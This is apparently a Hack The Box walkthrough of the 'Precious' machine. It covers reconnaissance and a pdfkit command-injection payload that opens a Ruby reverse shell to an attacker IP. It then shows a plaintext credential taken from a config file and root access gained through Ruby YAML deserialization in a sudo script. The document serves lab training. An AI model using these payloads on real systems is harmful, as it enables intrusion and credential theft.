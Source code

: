 ```yaml
---
title: "Precious"
date: 2025-08-13 14:00:00 +0500
categories: [Boxes]
tags: [HTB, Box, Linux, Easy, pdfkit, Command Injection, CVE-2022-25765, SSRF, CVE-2022-35583, Ruby, YAML Deserialization]
---
```


## Reconnaissance

### Port Discovery

```bash
sudo nmap -PN -sC -sV -oN precious 10.10.11.189
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-13 13:58 PKT
Nmap scan report for 10.10.11.189
Host is up (0.32s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.86 seconds
```

On port 80, we see that the web server is running nginx. The server redirects us to `http://precious.htb/`. Let's add this to our `/etc/hosts` file:

### Web Enumeration

We are greeted by a page allowing us to convert web page to pdf.

![alt text](/assets/images/precious-web.png)

We will intercept the request using Burp Suite to see how the pdf is being generated. But first let's fingerprint the web server.

#### Fingerprinting

```bash
whatweb 10.10.11.189
http://10.10.11.189 [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.10.11.189], RedirectLocation[http://precious.htb/], Title[302 Found], nginx[1.18.0]
http://precious.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], IP[10.10.11.189], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

We require a website to convert to pdf. Usually the boxes aren't configured to allow external requests, so we will use a local web server. Let's set up a simple HTTP server using Python:

```bash
python3 -m http.server 80
```

![alt text](/assets/images/precious-pdf.png)

We can see that wkhtmltopdf 0.12.6 is being used to convert the web page to pdf.

It is vulnerable to SSRF.

Also on further inspecting the response during PDF generation we discovered that it is generated using `/Creator (Generated by pdfkit v0.8.6)`. Which is also vulnerable. It is vulnerable to command injection.

## Foothold

### SSRF

wkhtmlTOpdf 0.12.6 is vulnerable to SSRF which allows an attacker to get initial access into the target's system by injecting iframe tag with initial asset IP address on it's source. This allows the attacker to takeover the whole infrastructure by accessing their internal assets.

[CVE-2022-35583](https://feedly.com/cve/CVE-2022-35583)

### Command Injection

We will go with this route.

[CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

If we try to pass 

```html
http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.30",1234))'`
```

as the URL. The server will actually process it and you will get a reverse shell.

### Reverse Shell as Ruby

```bash
nc -lvnp 1234          
listening on [any] 1234 ...
connect to [10.10.16.30] from (UNKNOWN) [10.10.11.189] 54354
whoami
ruby
python3 -c "import pty;pty.spawn('/bin/bash');"
ruby@precious:/var/www/pdfapp$ 
```

We found the creds for henry under ruby's home directory.

```bash
ruby@precious:/var/www$ ls -la /home/ruby/
total 28
drwxr-xr-x 4 ruby ruby 4096 Aug 13 04:39 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 Aug 13 04:39 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:/var/www$ cd ~
ruby@precious:~$ ls -la .bundle/
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 Aug 13 04:39 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
ruby@precious:~$ cd .bundle/
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

## Privilege Escalation

### Henry

We simply SSH as henry. We are allowed to do the following with sudo:

```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

We can run ruby as sudo on the script `/opt/update_dependencies.rb`. Let's check it out.

```bash
henry@precious:~$ cat /opt/update_dependencies.rb 
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end

henry@precious:/opt$ cat sample/dependencies.yml 
yaml: 0.1.1
pdfkit: 0.8.6
```

The script compares the installed gems with the ones specified in `dependencies.yml`. But neither of the scripts are writeable.

`update_dependencies.rb`, calls YAML.load on a dependencies.yml file from the current working directory without validation. YAML.load in Ruby will deserialize arbitrary objects, and if those objects belong to classes with methods that run system commands, the commands execute during or right after deserialization.

[dependencies.yml](https://github.com/v4resk/red-book/blob/main/redteam/privilege-escalation/linux/script-exploits/ruby.md)


```bash
nc -lvnp 4444          
listening on [any] 4444 ...
connect to [10.10.16.30] from (UNKNOWN) [10.10.11.189] 50084
root@precious:
```

---
